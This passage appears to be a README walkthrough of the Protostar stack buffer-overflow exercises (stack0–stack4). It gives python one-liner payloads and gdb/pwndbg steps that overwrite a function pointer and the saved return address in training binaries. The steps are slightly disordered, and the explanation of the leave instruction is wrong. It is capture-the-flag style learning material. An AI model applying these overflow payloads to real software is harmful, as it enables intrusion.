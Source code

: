 
12. pwndbg> telescope $rbp-8 1
    gef> dereference $rbp-8 1

   should get something like:
   `00:0000│ rdi-2  0x7fffffffde38 ◂— 0x4077 /* 'w@' */`
                          				^you have changed the value to 
                          				 0x4077

13. You did NOT enter the correct address because `\x00` and `\x05` are not
    printable in ASCII, so those bytes were left out.

    To fix these we're going back to the simple step-by-step so these
    values can be entered and we can get the correct address

14. `python -c "print 'A' * 72 + '\x77\x05\x40\x00'" | ./stack3`
                            ^     ^the address backwards cause little endian
                            |
                            may have to play with this number

    Output:
    ```
    calling function pointer, jumping to 0x00400577
    code flow successfully changed
    ```



# stack4: Controlling the EIP/RIP Register 
------------------------------------------------------------------------
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4

[Detailed]: Step-by-Step
1. `chmod +x stack4`
2. python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" > arg
   Put this output into a file called arg

2. `gdb stack4`
3. gdb> break main
4. gdb> run < arg
   Run this executable while taking in the contetns of the arg file as input

5. gdb> next 11
6. pwndbg> telescope $rbp
   gef>  dereference $rbp

   Should see something like (pwndbg):
   ```
   00:0000│ rbp    0x7fffffffde70 ◂— 0x4141414141414141 ('AAAAAAAA')
   01:0008│ rdi-6  0x7fffffffde78 —▸ 0x400537 (win) ◂— 0x3d8d4890e5894855
   ```

7. > next

	Note that the `leave` instruction is exactly equivalent to
	```
	mov   $rbp, $rsp     # rsp = rbpt
	pop   %ebp
	```


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/